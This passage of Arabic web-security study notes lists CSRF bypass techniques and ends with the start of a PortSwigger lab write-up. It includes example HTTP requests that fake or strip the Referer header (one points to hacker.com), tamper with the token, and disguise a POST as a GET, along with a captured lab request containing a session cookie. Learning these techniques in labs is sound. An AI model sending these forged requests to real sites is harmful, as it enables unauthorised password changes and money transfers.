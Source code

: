7. **تغيير قيمة التوكن بنفس الطول:** بعض التطبيقات لا تتحقق من صحة التوكن ولكنه يتطلب أن يكون بنفس الطول المتوقع.
   ```http
   POST /change-password HTTP/1.1
   Host: vulnerable-website.com
   Content-Type: application/x-www-form-urlencoded
   
   password=newpassword&csrf_token=aaaaaa
   ```

### **🔹 التلاعب بهيكل الطلب (Headers & Parameters)**
8. **إذا وُجد Referer، فقم بحذفه:** بعض التطبيقات تعتمد على `Referer Header` للتحقق من المصدر، لذا إزالته قد تساعد في تجاوز الحماية.
   ```http
   POST /transfer-money HTTP/1.1
   Host: vulnerable-website.com
   Content-Type: application/x-www-form-urlencoded
   Referer: 
   
   amount=500
   ```

9. **تغيير Referer إلى موقع تحكم فيه المهاجم:** تغيير `Referer: https://example.com` إلى `https://hacker.com`.
   ```http
   POST /transfer-money HTTP/1.1
   Host: vulnerable-website.com
   Content-Type: application/x-www-form-urlencoded
   Referer: https://hacker.com
   
   amount=500
   ```

### **🔹 استغلال طريقة GET لتنفيذ الطلبات**
10. **إذا وُجد CSRF Token، قم بإنشاء طلب GET مع الطريقة POST:** محاولة إرسال الطلب عبر GET ولكنه يتم معالجته كـ POST على الخادم.
   ```http
   GET /change-password?_method=POST&password=newpass HTTP/1.1
   Host: vulnerable-website.com
   ```

---

# [Lab: CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)

### **📌 ملاحظة هامة:**
بعض التطبيقات مش بتتحقق  من التوكن 

### **📌 شكل الريكويست:**
```http
POST /my-account/change-email HTTP/2
Host: 0a3c00f904dd141784b42cf200e400d5.web-security-academy.net
Cookie: session=0OA1QlgG0SnRc0tW70G3YkA1M7ocKPfk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: https://0a3c00f904dd141784b42cf200e400d5.web-security-academy.net
Referer: https://0a3c00f904dd141784b42cf200e400d5.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
```